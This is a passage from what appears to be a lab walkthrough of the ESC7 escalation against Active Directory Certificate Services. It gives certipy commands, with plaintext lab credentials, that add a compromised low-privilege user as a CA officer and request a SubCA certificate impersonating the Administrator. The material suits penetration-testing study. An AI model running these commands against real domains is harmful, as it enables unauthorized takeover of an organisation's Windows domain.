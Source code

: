 ![GUI view of CA security configuration](./src/images/esc7_gui_ca_vuln.png)

2. We can basically configuration the CA! Now lets enable `Issue and Manage Certificates` on the compromised user `lowpriv`. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-add-officer` flag as follows:

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -add-officer 'lowpriv' -dc-ip 10.66.66.3 -target-ip 10.66.66.3
```

![Added extra permission for lowpriv user](./src/images/esc7_add_officer.png)

3. Request **SubCA** certificate. This should throw errors `CERTSRV_E_TEMPLATE_DENIED`, basically saying we don't have permission to request for specified certificate. Please save the private key to be used later on.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -template SubCA -upn 'Administrator@bionic.local' -target 10.66.66.3 -dc-ip 10.66.66.3
```

![Certipy throws template denied error](./src/images/esc7_init_req_failed.png)
